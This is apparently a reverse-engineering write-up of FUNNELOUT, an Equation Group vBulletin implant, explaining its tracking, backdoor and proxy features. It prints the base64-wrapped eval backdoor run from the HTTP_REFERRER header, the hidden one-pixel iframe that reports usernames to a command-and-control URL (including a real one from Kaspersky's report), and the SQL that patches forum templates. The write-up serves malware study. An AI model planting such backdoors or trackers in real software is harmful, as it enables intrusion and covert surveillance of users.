

# FUNNELOUT

vBulletin implant. The code is able to add tags (in the form of an iframe and 1 pixel GIF tracker) to pages, a backdoor (remote eval via HTTP header content) and a proxy (send request to "proxy"/C&C and relay whatever it sends back to the client). The tag itself can be a proxy tag.

Tagging can be selective, FUNNELOUT uses a blacklist, a list of users to exclude and a list of users to include. By default all users are tracked, except for the ones hardcoded in the blacklist:

```
my $blackList = '84b8026b3f5e6dcfb29e82e0b0b0f386,e6d290a03b70cfa5d4451da444bdea39'; # unregistered (EN), dbedd120e3d3cce1 (AR)
```

This is the infamous [uncrackable hash of EQGRP](https://arstechnica.com/information-technology/2015/02/password-cracking-experts-decipher-elusive-equation-group-crypto-hashes/).

Tagging is basically just including [an iframe](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1047) in the webpage content. The URL contains the username of the user that is loading the page allowing for returning different content per user. [A local image crumb](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L924) can also be included in the page. This allows for easily finding the user in the Apache logs on the vBulletin server [Source](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L262).

The crumb and the iframe, `$htt` contains the full tag URL:

```
$crumbBuild = <<END;
''
END
}
....
return $crumbBuild . '<iframe src="' . \$htt . '" height="1" width="1" scrolling="' . \$scroll .'" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>';
```

Tagging also doesn't always happen. When the vBulletin post ID is not explicitely mentioned, the tagging is kinda ["random"](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1023-L1028).

```
# this is the normal case. tag randomly every so often
else{ 
    $text4 = <<END;
if(\$td - \$rk[0] >= $tagTime) {
    \$rk[0] = \$td;
    \$rk[1] = rand(0, $tagInt);
    \$bd(\$key, serialize(\$rk), 1);
} 
```

If the backdoor is installed (in the footer template), then you can send executable PHP code in the [`HTTP_REFERRER` header](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L288) and it will be `eval()`ed. This allows for quick external access to the system.

```
my $codePrefix = '".@eval(base64_decode("';
my $codeSuffix = '"))."';
...
sub op_door {
    $code_door = $codePrefix . getBase64Encode('eval($_SERVER["HTTP_REFERRER"]); return "";') . $codeSuffix;
    
    print "Insert door\n";
    patch_db($code_door, $doorTemplate);
}

```

The proxy functionality will literally forward [the full request (body and everything)](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1120-L1151) towards the proxy and it will return to the user whatever [the proxy returns](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1209) (like... a... proxy...).

Also check [Kaspersky EQGRP questions and answers](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf), FUNNELOUT is the code generator for the PHP code found on page 24.



([Source](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf))


In the code found by Kaspersky, the tag URL is `http://technology-revealed[.]com/expand/order.php?design=ABRSRgDQlkUALAxGANDrRuQQofe6Y0THS8E3hfBC+M+k7CdBmTH5gAkLvgV8EV3ULW+7KoUjbJ4UOFU6SVOtgEK7zTgPPNoDHz4vKecDGe7OzDmJlvwKvc5uYg/I/5x9&sn=" . bin2hex(substr($u,0,14));` Where `$u` is the username. We also find that the crumb string is empty (just before the iframe HTML code there's a concatenation with an empty string). 

The blacklist in the Kaspersky report only contains the two md5s that are default. Since the blacklist is build up with these default entries and then a whitelist of people not to follow and a blacklist of people to follow (see [here](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L833-L864)), we know that EQGRP was following/tagging every user.


## Differences between versions

Nothing interesting worth noting...

## Variables

```
my $blackList = '84b8026b3f5e6dcfb29e82e0b0b0f386,e6d290a03b70cfa5d4451da444bdea39'; # unregistered (EN), dbedd120e3d3cce1 (AR)
my $tagTemplate = "navbar";
my $proxyTemplate = "header";
my $doorTemplate = "footer";
my $proxyPage = "showpost.php";
my $codePrefix = '".@eval(base64_decode("';
my $codeSuffix = '"))."';
my $userHashSalt = "l9ed39e2fea93e5";

```

## Functions

* vbVersion(): Determines whether version 3 or 4. Sets `$vbVersion` variable.
* op_tag(): Creates a code tag with `makeTagCode()`, inserts the tag in the db (tagTemplate) with `patch_db()` and then validates the tagged template with `validateTemplate()`. `$tagUrl` must be set for this.
* op_door(): Inserts a RCE in the doorTemplate by embedding: `'eval($_SERVER["HTTP_REFERRER"]); return "";'`
* op_proxy(): Creates proxy code with `makeProxyCode()`, inserts the code in the `$proxyTemplate`.
* op_status(): Executes `SELECT title,template FROM template WHERE template LIKE '%$codePrefix%$codeSuffix%'");`, So basically match all templates with the specific code prefix and suffix that is used. It then iterates over this list and extracts (`extractCode()`) the actual code to return whether TAGGING, PROXYING or BACKDOORing was put on this DB or not.
	* Proxy: code contains word "proxyhost"
	* Tagged: code contains `$userHashSalt`, in our code it's `l9ed39e2fea93e5`
	* Backdoor: code contains `SERVER["HTTP_REFERRER"]`
* showTaggedCount(): Executes `"SELECT COUNT(*) FROM datastore WHERE LENGTH(title) = 15 AND LENGTH(data) < 60 and data LIKE 'a:2:{i:0;i:%;i:1;i:%;}'"` and returns the number of users that are tagged.
* op_reset(): Executes `"DELETE FROM datastore WHERE LENGTH(title) = 15 AND LENGTH(data) < 60 and data LIKE 'a:2:{i:0;i:%;i:1;i:%;}'"` 
* op_clean(): Cleans up templates. Executes `"UPDATE $DB_table SET template = SUBSTRING_INDEX(template, '\$final_rendered .= \@eval(',1) WHERE title='$title';"`, where title is `$tagTemplate, $proxyTemplate, $doorTemplate` depending on what you're cleaning. [`SUBSTRING_INDEX`](https://dev.mysql.com/doc/refman/5.5/en/string-functions.html#function_substring-index) will basically remove (duh) everything after (+ including the second parameter) of the title. We can infer by this that the executable code is inserted just after the title in the template.
* show_table(): Executes `"SELECT template FROM $DB_table WHERE title='$title'"` where title matches ether `$tagTemplate, $proxyTemplate, $doorTemplate`. So you just get the correct template (table is confusing in this sense).
* showTagged(): Executes `"SELECT COUNT(*) FROM datastore WHERE LENGTH(title) = 15 AND LENGTH(data) < 60 and data LIKE 'a:2:{i:0;i:%;i:1;i:%;}'"`. Then unserializes the data with `tagStateUnserialize()`, It then nicely prints the name, the timestamp and the number of views.

Lower level functions:

* patch_db(): Executes `"UPDATE $DB_table SET template = CONCAT(template, '$patchString') WHERE title='$title'"`. This confirms that we just take the template and then append our executable code.
* makeTagCode():
	* Creates a blacklist by taking the original blacklist and then appending users that were given via the commandline to the blacklist (md5ing them along the way).
	* Creates a whitelist by taking the users given by a commandline option (and again md5ing the names first)
	* Creates a list of postIDs from the CLI to create a list where we will always tag. So basically, if someone visits this post, then tag. (line 1015)
	* Will build URL with `sn=` param set to first 14 chars of `$u` (`$u = $vbulletin->userinfo['username']`) hex-encoded in PHP code. The hostname of the server points either to the proxy ("proxytag") or to a EQGRP controller domain. With the `sn` query parameter, they know which user got tagged.
	* Will build crumb string (Small GIF image tag URL): with URL: `images/<hex-encoded username>.gif` Allows for correlation with the Apache Logs. (line 262): `'`
	* It uses the vBulletin function `build_datastore()` with the name or key: `md5("$userHashSalt" . $_SERVER['SERVER_ADDR'] . $vbulletin->datastore->registry->config['MasterServer']['servername'])` to create a persistent way of storing state. When it is created, it stores the array: `[true, 1258466920]`.
		* If these values are different at a given run of the tag code, then bail out.
	* If we don't match the blacklist:
		* Create key: If we tag every X minutes: `substr(md5($_SERVER['SERVER_ADDR'] . $vbulletin->datastore->registry->config['MasterServer']['servername'] . $vbulletin->userinfo['username'] . $vbulletin->userinfo['salt'] . '4'), 0, 15);`
		* Create key: If we tag every X hours (24 default): substr(md5($_SERVER['SERVER_ADDR'] . $vbulletin->datastore->registry->config['MasterServer']['servername'] . $vbulletin->userinfo['username'] . $vbulletin->userinfo['salt']), 0, 15);
		* Create the state (just an empty array) with this key if it doesn't yet exist.
		* Tag always if we're visiting one of the postIDs: generate a small iframe with our URL: `<iframe src="' . <OUR_C&C_URL> . '" height="1" width="1" scrolling="no" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>`, then return this HTML immediately.
		* Else (for all other posts/pages): 
			* Check if we last tagged more than frequency of tagging ago. If it's time to tag again: set `$rk` to the current time and put a random value between 0 and 6 (by default). 
			* If the random value is bigger than 0, do -1 and store it.
			* If random value is 0, set to -1 and attach tagging to page: crumb + iframe.
				* `' '<iframe src="' . \$htt . '" height="1" width="1" scrolling="' . \$scroll .'" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>';`

* makeProxyCode(): Basically PHP code that will make a HTTP(S) request whenever the code is loaded. it will send `php://input` to the proxy, so basically the request body. It then takes the reply from this Proxy and sets the Content-Length, Content-Type and a Cookie (if GIF or PDF, set `bbsessionhash=md5(mt_rand())`, if POST then take cookie that was already set). Print out whatever you got from the proxy and `exit(0);`. So you basically don't load any regular code, just what you got from the Proxy.

### URL structure of C&C or Proxy

PHP variable `$htt`. Build by `$urlBuild` in Perl.

* We start with Perl variable `$tagUrl`, this contains for example `domain.info/nested/attribs/bins/1/define/route47165_`
* If Proxy: 
	*`$htt = showthread.php/nested/attribs/bins/1/define/route47165_` (it takes everything after the first slash of `$tagUrl`.
* No Proxy: `$htt = "http(s)://" . $tagUrl`, for example: `$htt = http://domain.info/nested/attribs/bins/1/define/route47165_`

Then adding the username string, two options depending on whether the `$tagUrl` contains a question mark or not.
	* No question mark: render as page `$htt = $htt . bin2hex(substr(\$u,0,14)) . ".html";` For example this would give (in our example): `http://domain.info/nested/attribs/bins/1/define/route47165_aaaaaaaaaaaaaaaaaaaaaaaaaaaa.html`
	* Question mark: render as query parameter: `$htt = $htt . "&sn=" . bin2hex(substr(\$u,0,14));`, so: `http://domain.info/nested/attribs/bins/1/define/route47165_something.html?a=b&sn=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`

In Kaspersky report we find: `$htt="http://technology-revealed.com/expand/order.php?design=ABCBase64String"; $htt = $htt . "&sn" . bin2hex(substr($u,0,14));`
We also find that the crumb string is empty (just before the iframe there's a concatenation with an empty string). 

The blacklist in the Kaspersky report only contains the two md5s that are default. Since the blacklist is build up with these default entries and then a whitelist of people not to follow and a blacklist of people to follow, we know that EQGRP was following/tagging every user.


### Vbulletin datastore structure

```
vbulletin ($v)
        datastore ($d)
                registry ($r)
                        substr(md5("$userHashSalt" . \$n), 0, 15) ($k)
                                [true, 1258466920]
                substr(md5($_SERVER['SERVER_ADDR'] . $vbulletin->datastore->registry->config['MasterServer']['servername'] . $vbulletin->userinfo['username'] . $vbulletin->userinfo['salt'] . '4'), 0, 15) (MINUTES) ($rk)
                        [''] -> (after first tagging) -> [current_time_in_seconds, random number between 0 and tag interval in hours?]

                substr(md5($_SERVER['SERVER_ADDR'] . $vbulletin->datastore->registry->config['MasterServer']['servername'] . $vbulletin->userinfo['username'] . $vbulletin->userinfo['salt']), 0, 15) (HOURS) ($rk)
                        [''] -> (after first tagging) -> [current_time_in_seconds, random number between 0 and tag interval]
```
